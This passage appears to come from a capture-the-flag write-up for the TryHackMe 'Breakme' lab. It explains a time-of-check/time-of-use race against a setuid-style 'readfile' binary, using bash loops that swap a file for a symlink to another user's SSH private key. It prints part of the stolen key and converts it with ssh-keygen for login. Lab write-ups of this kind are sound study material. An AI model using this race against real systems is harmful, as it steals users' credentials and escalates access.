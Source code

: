 This code allows us to read a file after performing some checks. The most important checks are explained below.
1) The file should be a regular file i.e. not a symbolic link.
```c
lstat(argv[1], (void *)((int64_t)&var_4bch + 4));
var_1ch = (uint32_t)(((uint32_t)var_4a0h & 0xf000) == 0xa000);
```
2) The filename should not contain "flag".
4) The filename should not contain "id_rsa". 
```c
var_10h = (char *)strstr(argv[1], "flag");
var_18h = (char *)strstr(argv[1], "id_rsa");
if ((((var_10h == (char *)0x0) && (var_1ch == 0)) && 
      (var_20h != 0xffffffff)) && 
      (var_18h == (char *)0x0)) {
<SNIP>
}
```

In the code, we can see that the function ```usleep(0);``` is called after it has checked that the file is not a symbolic link and before it checks the content of the filename. This function even though not many lasts for a specific period. We can exploit this by creating two indefinite loops, one that creates a file, changes its state to a symbolic link pointing to Youcef's SSH private, and deletes the file indefinitely, and the second one that runs the program indefinitely. What this will do is that after the state of the normal file created has been verified, during the call of the sleep function the state of the file will be changed by our loop and the file will be read.
```bash
john@Breakme:/home/youcef$ while true;do touch ~/test;sleep 0.2;ln -sf /home/youcef/.ssh/id_rsa ~/test;sleep 0.2;rm ~/test;done&

john@Breakme:/home/youcef$ while true; do result=$(./readfile ~/test| grep -v "guess\|Found\|Failed"); [ -n "$result" ] && echo "$result"; done
-----BEGIN OPENSSH PRIVATE KEY-----                                      
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCGzrHvF6
Tuf+ZdUVQpV+cXAAAAEAAAAAEAAAILAAAAB3NzaC1yc2EAAAADAQABAAAB9QCwwxfZdy0Z           
<SNIP>
yHBxN27qpNoUHbrKHxLx4/UN4z3xcaabtC7BelMsu4RQ3rzGtLS9fhT5e0hoMP+eU3IvMB
g6a2xx9zV89mfWvuvrXDBX2VkdnvdvDHQRx+3SElSk1k3Votzw/q383ta6Jl3EC/1Uh8RT
TabCXd2Ji/Y7UvM=
-----END OPENSSH PRIVATE KEY-----    
```

We can see that after a short period, Youcef's private key is printed on the screen. Unfortunately, this key appears to have some problems when we try to connect with it.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme/Misc File]
└─$ ssh youcef@10.10.230.208 -i youcef_rsa
Load key "youcef_rsa": error in libcrypto
youcef@10.10.230.208's password: 
```

We can change the format of this key using ssh-keygen as a way around this issue.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme/Misc File]
└─$ ssh-keygen -p -f youcef_rsa -m PEM
Enter old passphrase:
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme/Misc File]
└─$ 
```
